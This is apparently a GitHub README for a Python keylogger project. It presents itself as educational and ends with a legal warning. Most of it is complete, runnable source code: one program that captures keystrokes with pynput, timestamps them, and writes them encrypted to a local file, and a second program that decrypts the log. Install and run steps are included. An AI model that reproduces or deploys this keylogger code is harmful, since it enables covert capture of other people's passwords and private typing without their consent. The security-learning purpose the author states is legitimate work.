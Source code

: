 # Keylogger with encryption
## Purpose
The project is designed to better understand the techniques used by attackers and methods of defending against such threats also as an exercise in script writing in `Python`. 
## Description
This project consist of two programs: one for logging key presses and another for decrypting the logged data. The programs are written in Python and use the `pynput` library to capture key presses and the `cryptography` library for encrypting and decrypting data. I also used a `datetime` modul which adds the exact time of the entered string of characters and numbers.
# Code
## Keylogger Program (keylogger.py)
``` python 
from pynput import keyboard
import datetime
from cryptography.fernet import Fernet

# Generate encryption key
key = Fernet.generate_key()
cipher_suite = Fernet(key)

# Save key to file 
with open('key.key', 'wb') as f:
    f.write(key)

buffer = []

def on_press(key):
    global buffer 
    if key == keyboard.Key.space:
        # Create a log with the current time and buffer content, then encrypt it
        log = f'[{datetime.datetime.now().strftime('%Y-%m-%d, %H:%M:%S')}] {"".join(buffer)}\n'
        encrypted_logs = cipher_suite.encrypt(log.encode())
        with open('klogs.txt', 'ab') as f: # Opening the file in append binary mode
            f.write(encrypted_logs + b'\n')
        buffer = []
    else:
        try:
            if key.char.isalpha():  # Check if the pressed key is a letter
                buffer.append(key.char)
            else:
                buffer.append(str(key).replace("'", ""))
        except AttributeError:  # Ignore non-character keys like Shift, Ctrl.
           pass 
# Checking if the pressed key is esc if so stop listening key presses
def on_release(key):
    if key == keyboard.Key.esc:
        return False 
        
with keyboard.Listener(on_press=on_press, on_release=on_release) as Listener:
    Listener.join() # Start listening to key presses
```
### Explanation
1. `Imports`: 
Import necessary modules to keyboard events, handling dates and encrypted data.
2. `Encryption Key`:
Generate and save an encryption key for secure data storage.
3. `Buffer`:
A list to collect characters typed by the user.
4. `on_press Function`:
Handles key press events, appends characters to a buffer and writes encrypted logs to a file when the space bar is pressed.
5. `on_release Function`:
Stops listening for a key presses when the Esc key is pressed.
6.  `Listener`:
Initialazes and starts the keyboard listener to call the defined functions on key events.
## Log decryption Program (decryption.py)
``` python
from cryptography.fernet import Fernet
import sys 

with open('key.key', 'rb') as f:
    key = f.read()
    
cipher_suite = Fernet(key)

with open('klogs.txt', 'rb') as f:
    encrypted_logs = f.readlines()
    
decrypted_logs = ''
for log in encrypted_logs:
    decrypted_log = cipher_suite.decrypt(log.strip()).decode()
    decrypted_logs += decrypted_log + '\n'

with open('decrypted_logs.txt','w') as f:
   f.write(decrypted_logs)

print("Decryption complete.")
sys.exit(0)
```
### Explanation

## Requirements
- Python 3.x
- Libraries:
 `pynput`, `cryptography`
## Instalation
1. Clone the repository:
   ``` bash
   git clone https://github.com/hackbutnotme/Keylogger
   ```
2. Install the required libraries:
   ``` bash
   pip install pynput
   pip install cryptography
   ```
## Usage
1. Run the keylogger.py:
   ``` bash
   python keylogger.py
   
   # The program will run in the background, logging key presses.
    ```
2. After logging key presses and saving them to `klogs.txt`, run the fecryptor program:
    ``` bash
    python decryption.py

    # The decrypted logs will be saved to `decrytped_logs.txt`.
    ```
## WARNING
This project is intended for educational purposes only. Using such tools to monitor the activities of others without their consent is illegal and unethical. Please use this project responsibly!
